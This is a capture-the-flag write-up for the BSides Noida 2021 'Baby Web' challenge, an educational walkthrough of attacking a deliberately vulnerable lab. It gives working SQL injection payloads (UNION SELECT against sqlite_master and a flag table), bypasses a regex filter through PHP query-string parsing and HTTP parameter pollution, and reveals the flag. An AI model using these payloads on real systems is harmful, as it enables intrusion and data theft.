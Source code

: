 # Baby Web 420 points

# Description
Just a place to see list of all challs from bsides noida CTF, maybe some flag too xD
Note : Bruteforce is not required.

[chall link](http://ctf.babyweb.bsidesnoida.in/)

# Attachments
[sauce](https://github.com/MikelAcker/CTF_WRITEUPS_2021/blob/main/BSides_Noida_CTF_2021_Writeup/Web/Baby%20Web/baby_web.zip?raw=true)

# Solution
### Unintended Solution
After checking the given files, I found out that `karma.db` is placed in the root directory

So, access it and search for the flag

http://ctf.babyweb.bsidesnoida.in/karma.db

<img src="https://raw.githubusercontent.com/MikelAcker/CTF_WRITEUPS_2021/main/BSides_Noida_CTF_2021_Writeup/Web/Baby%20Web/info1.png">

*flag*: `BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4}`

### Intended Solution
Looking at `index.php`, we can see that the website takes `chall_id` http parameter and passes it's value to "SELECT * FROM ..." query statement.
```php
...

if (isset($_GET['chall_id'])) {
    $channel_name = $_GET['chall_id'];
    $sql = "SELECT * FROM CTF WHERE id={$channel_name}";
    $results = $db->query($sql);

...
```
The parameter's vaule is **unfiltered**.So, we can do *injection* attack.

But, when we send payloads which contains *alphabet*, it gives error.

<img src="https://raw.githubusercontent.com/MikelAcker/CTF_WRITEUPS_2021/main/BSides_Noida_CTF_2021_Writeup/Web/Baby%20Web/info2.png">

Checking carefully the *given* files again, I found that there is a **regex** that is used to prevent alphabets and white spaces in `chall_id` from `config/ctf.conf` file
```
...

if ( $arg_chall_id ~ [A-Za-z_.%]){
		return 500;
	}

...
```

We have to think how to *bypass*  it

After searching online, I found this useful article [PHP query string parser vulnerability](https://medium.com/@nyomanpradipta120/php-query-string-parser-vulnerability-cc6f0a8b206)

It says, in php query string parsing process, it removes or replaces some characters in the argument names with underscore.

For example: `post[id=1337` becomes `post_id=1337`

So, in this challenge, if we send `?chall[id`, the regex will see `chall[id` but the php application will see `chall_id`

We can do **injection** now!!!

`http://ctf.babyweb.bsidesnoida.in/?chall[id=1+or+1=1`

<img src="https://raw.githubusercontent.com/MikelAcker/CTF_WRITEUPS_2021/main/BSides_Noida_CTF_2021_Writeup/Web/Baby%20Web/info3.png>

From opening given `karma.db` file, we can see that there are 6 *columns*.
```
$ cat karma.db
�_�%tableCTFCTFCREATE TABLE CTF(
  id integer AUTO_INCREMENT,
  title varchar(255) not NULL,
  description varchar(255) not NULL,
  category varchar(255) not NULL,
  author varchar(255) not NULL,
  points int NOT NULL
B��
...
```

Now, we can use **UNION SELECT** payload

`http://ctf.babyweb.bsidesnoida.in/?chall[id=1+union+select+1,2,3,4,5,6`

<img src="https://raw.githubusercontent.com/MikelAcker/CTF_WRITEUPS_2021/main/BSides_Noida_CTF_2021_Writeup/Web/Baby%20Web/info4.png">

We can extract all the **tables** from **sqlite_master**

`http://ctf.babyweb.bsidesnoida.in/?chall[id=1+union+select+1,2,3,4,5,sql+from+sqlite_master`

<img src="https://raw.githubusercontent.com/MikelAcker/CTF_WRITEUPS_2021/main/BSides_Noida_CTF_2021_Writeup/Web/Baby%20Web/info5.png">

There is a *table* **flagsss** and a column **flag** in it

Let's see if the flag is there

`http://ctf.babyweb.bsidesnoida.in/?chall[id=1+union+select+1,2,3,4,5,flag+from+flagsss`

<img src="https://raw.githubusercontent.com/MikelAcker/CTF_WRITEUPS_2021/main/BSides_Noida_CTF_2021_Writeup/Web/Baby%20Web/info6.png">

Can't see the whole **flag** so I look at the source

<img src="https://raw.githubusercontent.com/MikelAcker/CTF_WRITEUPS_2021/main/BSides_Noida_CTF_2021_Writeup/Web/Baby%20Web/info7.png">

And, there is the **flag**

*flag*: `BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4}`

# Another way to solve

We can use [HTTP Parameter Pollution](https://www.youtube.com/watch?v=QVZBl8yxVX0) to solve this challenge

`http://ctf.babyweb.bsidesnoida.in/?chall_id=1&chall_id=1+union+select+1,2,3,4,5,flag+from+flagsss`

When we send this payload, the **regex** filters the first `chall_id` but not the *last* one.

And also in **php** if there are same *http* parameters it will use only the **last** one

So, we can bypass the **regex** and do the *injection*
